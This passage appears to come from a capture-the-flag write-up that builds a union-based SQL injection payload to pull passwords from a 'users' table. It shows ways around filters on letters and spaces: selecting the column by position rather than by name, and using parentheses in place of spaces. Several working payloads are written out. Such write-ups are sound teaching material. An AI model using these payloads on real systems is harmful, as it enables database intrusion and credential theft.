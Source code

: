 We can already construct a payload for **Union based** SQL Injection.

The payload for it maybe: `1 union select 1,2,password from users`

Bad news: `"password"` has characters "a" which is filtered.

Good news: [Hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection#bypass-column-names-restriction) also offers us another way around.

```sql
-- This is an example with 3 columns that will extract the column number 3
-1 UNION SELECT 0, 0, 0, F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;
```

## Constructing payload

### Our union select

Let's start off with making our union select, provided that there are no filters applied.

It would be: 
```sql
1*2 UNION SELECT 1, 2, password FROM users
```

### Without using column name

Column `"password"` is the fourth column of the table users. So the payload from previous section would be:
```sql
1*2 UNION SELECT 1, 2, F.4 FROM (SELECT 1, 2, 3, 4 UNION SELECT * FROM users)F
-- Extracting fourth column with a table with 4 columns
```

### Combine with no spaces using parentheses

This is a tedious and annoying part to explain so I just leave it right here for you to think and try:

```sql
1*(2)union(SELECT(1),(2),((F.4))from(SELECT(1),(2),(3),(4)union(SELECT*from(users)))F)
```

### Try it out

![](try_fail.png)
